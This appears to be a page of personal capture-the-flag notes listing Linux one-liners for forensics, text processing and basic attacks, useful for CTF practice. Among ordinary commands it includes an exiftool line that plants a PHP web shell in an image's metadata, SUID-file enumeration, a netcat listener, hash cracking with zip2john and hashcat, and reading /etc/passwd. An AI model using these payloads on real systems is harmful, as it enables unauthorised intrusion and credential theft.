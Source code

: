 ```https://d00mfist1.gitbooks.io/ctf/content/basics_of_linux.html
        - su anotheruser (Allows switching users without logging out)
        - find / -perm -u=s -type f 2>/dev/null //Finding suid files
        - find /mnt -type f -name learning 2>/dev/null
        - netstat -lptn
        - awk -F "whatisb4" '{print $2}'
        - cut -d'x' -f1 removes x and the words that come after it
        - strings file | cut -c 1-4 //Shows the first 4 characters
        - base64 < filename > outputfile
        - tsk_recover -i raw -e image.dd outputfolder => Helps recover deleted files from and image file
        - binwalk file //Checks for embeddded files in another file
        - binwalk -Me file  //Extracts files from another file 
        - xxd filename //Gives hexdump 
        - xxd -p dd.jpeg //Gives hexdump without spaces.Dump the hex and repair or edit it then fix with command below
        - xxd -r -p dump.txt > file.zip
        - zip -FF damaged.zip > fixed.zip
        - zip2john fixed.zip > hash
        - dd -f=filename.jpeg bs=1 skip=bytesindecimal > outfile 
        - tr -d "\n" file or cat file.txt | tr -d " \t\n\r"
        - strings -a -n 5 file
        - crunch 8 8 1234567890 -o wordlist.txt
        - cat file | wc -l
        - filter 7 file  (Displays words with seven characters)
        - strings filename | awk 'length($0)>15'or awk 'length($0)==7' \\Prints strings greater than 15 in length
        - sort -r filename //sort in reverse
        - echo 'whattodecode' | base64 -d
        - python -m SimpleHTTPServer 8000 (python 2)
        - python3 -m http.server 8000
        - netcat -lvp 4444 //Listening for incoming connections using netcat
        - hashcat64.exe -D 2 -m 0 hash.txt passwords.txt --status --force
        - cewl www.ignitetechnologies.in -d 2 -w foundwords.txt - (-d 2 is depth of 2 links)
        - netstat -lptnu
        - exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
        - exiftool -all:all= image.png
        - cat file |  grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
        - curl somefile.js | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
        - php -S 127.0.0.1:3333 //simple php server
        - curl -s -N http://127.0.0.1:4040/status | grep -Eo "https://[0-9a-z]*\.ngrok.io"
        - netcat -lvp 4444 -Netcat listens at port 4444
        - grep -rni '{.*}'
        - sort filename | uniq - removes duplicates
        - grep '' /etc/passwd - Reading files using grep
        - head -1 /somefile | base64 - convert contents to base64
        Access localhost using 127.0.0.1,localhost,0.0.0.0







     CURL
     ----
     https://gist.github.com/subfuzion/08c5d85437d5d4f00e58

     curl https://ipinfo.io/ip - Gets ip
     whois $(curl https://ipinfo.io/ip) - Gets location details

         curl -s -I ip | grep -e 'Server: ' - Checking the server of a web app using curl (I fetch headers, -s silent mode)
```